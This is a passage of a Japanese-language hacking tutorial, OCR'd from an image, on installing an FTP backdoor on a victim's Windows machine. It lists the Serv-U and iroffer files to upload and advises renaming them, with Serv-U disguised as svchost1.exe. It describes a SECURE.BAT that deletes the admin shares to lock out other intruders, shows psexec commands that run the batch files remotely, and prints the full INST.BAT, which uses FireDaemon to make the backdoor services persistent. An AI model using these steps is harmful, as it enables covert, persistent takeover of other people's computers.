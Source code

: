 　SERV\-UのFTPデーモンは非常に強力なFTPサーバーです。このプログラムはコン
ピュータ上に、ftpのバックドアをインストールするために使われます。

BugSlayerUtil.dll	libeay32.dll	Serv\-U.cnt	Serv\-U.GID
ServUCert.crt		ServUCert.key	ServUDaemon.exe ServUDaemon.ini
Serv\-UID.old		ServUPerfCount.dll		ssleay32.dll
TzoLibr.dll

　これらのファイルを全てアップします。
　あと、iroffer.exeとServuDaemon.exeはリネームしたほうがいいです。

●SECURE.BAT

　このバッチファイルはただIPC $ と C$ thourgh Z$ share を削除するだけです。
Windowsが再開されるまで、これはコンピュータに効果を与えるでしょう。これら
のシェアリングを取り去る理由は、他人にそれと同じことをさせないためにです。

●INST.BAT

　ファイルをあらかじめ仕込んだ後で、firedaemonへコマンドを渡す時に使われ
ます。

●FIREDAEMON（http://www.firedaemon.com/）

　Firedaemonはサービスとしてプログラムをインストールします。そして、マシ
ンが再起動する次のとき、プログラムが開始されることを保証するでしょう。at
tackerは犠牲者のコンピュータ上にバックドアをインストールすることができま
す。Firedaemonは犠牲者マシンにプログラムをシステムサービスとしてインスト
ールします。

●PSEXEC（http://www.sysinternals.com/ntw2k/freeware/psexec.shtml/）

　次に、仕込んだバッチファイルを実行させます。
　psexecを実行して、そしてそれにインストールバッチファイルをリモートのコ
ンピュータ上で、走らせるように命令させます。

psexec \\xxx.xxx.xxx.xxx C:\WINNT\SYTEM32\INST.BAT
psexec \-u "Username" \\xxx.xxx.xxx.xxx c:\WINNT\SYTEM32\SECURE.BAT

　このようにしてコマンドを入力してください。
　あとはやりたい放題です。


### 0x03 INST.BATとSECURE.BAT

\-\-\-\-\-  INST.BAT
{
   @echo off
   SET MXHOME\=c:\winnt\system32
   SET MXBIN\=c:\winnt\system32
   c:\winnt\system32\firedaemon \-i iroff "c:\winnt\system32" 
"c:\winnt\system32\iroffer.exe" "xdcc.config" Y 0 0 0 Y
   c:\winnt\system32\firedaemon \-i servu "c:\winnt\system32" 
"c:\winnt\system32\svchost1.exe" "" Y 0 0 0 Y
   c:\winnt\system32\firedaemon \-i secur "c:\winnt\system32" 
"c:\winnt\system32\secur.exe" "" Y 0 0 0 Y
   net start iroff
   net start servu
   net start secur
}
\-\-\-\-\-
